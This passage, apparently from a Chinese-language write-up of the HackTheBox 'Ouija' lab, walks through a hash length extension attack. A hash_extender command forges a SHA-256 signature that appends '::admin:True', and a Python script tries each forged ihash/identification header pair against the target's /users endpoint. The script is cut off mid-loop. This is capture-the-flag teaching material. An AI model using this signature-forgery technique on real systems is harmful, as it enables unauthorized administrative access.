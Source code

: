    

4. 将hash_extender的结果保存到一个文件中，然后利用一个简单的脚本来测试哪个secret可用。

   ```
   ┌──(root㉿kali)-[/tmp]
   └─# /root/TOOLS/hash_extender/hash_extender --data 'bot1:bot' --signature 4b22a0418847a51650623a458acc1bba5c01f6521ea6135872b9f15b56b988c1 --append '::admin:True' --format sha256 --secret-min=1 --secret-max=24 > test1
   
   ```

   利用/users来测试正确的ihash和identification。当身份验证通过的时候/users会返回``Database unavailable`,枚举脚本如下

   ```python
   import sys
   import requests
   import binascii
   import base64
   import re
   
   # Specify the path to your file
   file_path = 'test1'  # Update with the actual file path
   
   # Read the content of the file
   with open(file_path, 'r') as file:
       content = file.read()
   
   #print("Content:", content)
   
   # Define regular expressions to match "New signature" and "New string" lines
   signature_pattern = re.compile(r'New signature:\s*(\w+)\n')
   string_pattern = re.compile(r'New string:\s*(\w+)\n')
   
   # Use the regular expressions to find matches in the content
   signature_matches = signature_pattern.finditer(content)
   string_matches = string_pattern.finditer(content)
   
   # Extract the values
   signatures_array = [match.group(1) for match in signature_matches]
   strings_array = [match.group(1) for match in string_matches]
   #print("ihash_array type:",type(signatures_array)
   
   n=len(signatures_array)
   
   for i in range(0,n):
       ihash=signatures_array[i]
       identification=base64.b64encode(strings_array[i].encode("utf-8")).decode('utf-8')
       
       #print(i+1)
       #print("ihash:",ihash)
       #print("identification:",identification)
       #print('\n')
       
       session = requests.session()
       burp0_url = "http://ouija.htb:3000/users"
       burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "ihash": ihash, "identification": identification, "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2", "Accept-Encoding": "gzip, deflate, br", "Connection": "close", "Upgrade-Insecure-Requests": "1", "If-None-Match": "W/\"19-MSxtr7/B/C28D2L7ZPuhkY77ktU\""}
       
       try:
           req=session.get(burp0_url, headers=burp0_headers).text
           if(req.find("Database unavailable") != -1):
               print("ihash:",ihash)
   ```